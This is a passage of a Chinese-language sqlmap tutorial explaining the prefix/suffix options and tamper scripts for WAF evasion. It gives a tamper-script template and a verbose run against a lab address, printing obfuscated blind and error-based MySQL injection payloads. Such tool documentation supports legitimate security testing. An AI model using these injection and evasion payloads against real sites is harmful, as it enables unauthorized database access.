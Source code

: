 这时你就需要`–prefix`和`–suffix`参数了：

```
python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_str_brackets.php?id=1" -p id --prefix
"’)" --suffix "AND (’abc’=’abc"
```

这样执行的SQL语句变成：

```
$query = "SELECT * FROM users WHERE id=(’1’) <PAYLOAD> AND (’abc’=’abc’)
LIMIT 0, 1";
```

**修改注入的数据**

参数：`–tamper`

`sqlmap`除了使用`CHAR()`函数来防止出现单引号之外没有对注入的数据修改，你可以使用`–tamper`参数对数据做修改来绕过WAF等设备。
下面是一个`tamper`脚本的格式：

```
# Needed imports
from lib.core.enums import PRIORITY
# Define which is the order of application of tamper scripts against
# the payload
__priority__ = PRIORITY.NORMAL
def tamper(payload):
'''
Description of your tamper script
'''
retVal = payload
# your code to tamper the original payload
# return the tampered payload
return retVal
```

可以查看 `tamper/` 目录下的有哪些可用的脚本

例如：

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --tamper tamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3

[hh:mm:03] [DEBUG] cleaning up configuration parameters
[hh:mm:03] [INFO] loading tamper script 'between'
[hh:mm:03] [INFO] loading tamper script 'randomcase'
[hh:mm:03] [INFO] loading tamper script 'space2comment'
[...]
[hh:mm:04] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[hh:mm:04] [PAYLOAD] 1)/**/And/**/1369=7706/**/And/**/(4092=4092
[hh:mm:04] [PAYLOAD] 1)/**/AND/**/9267=9267/**/AND/**/(4057=4057
[hh:mm:04] [PAYLOAD] 1/**/AnD/**/950=7041
[...]
[hh:mm:04] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause'
[hh:mm:04] [PAYLOAD] 1/**/anD/**/(SELeCt/**/9921/**/fROm(SELeCt/**/counT(*),CONCAT(cHar(
58,117,113,107,58),(SELeCt/**/(case/**/whEN/**/(9921=9921)/**/THeN/**/1/**/elsE/**/0/**/
ENd)),cHar(58,106,104,104,58),FLOOR(RanD(0)*2))x/**/fROm/**/information_schema.tables/**/
group/**/bY/**/x)a)
[hh:mm:04] [INFO] GET parameter 'id' is 'MySQL >= 5.0 AND error-based - WHERE or HAVING
clause' injectable
[...]
```
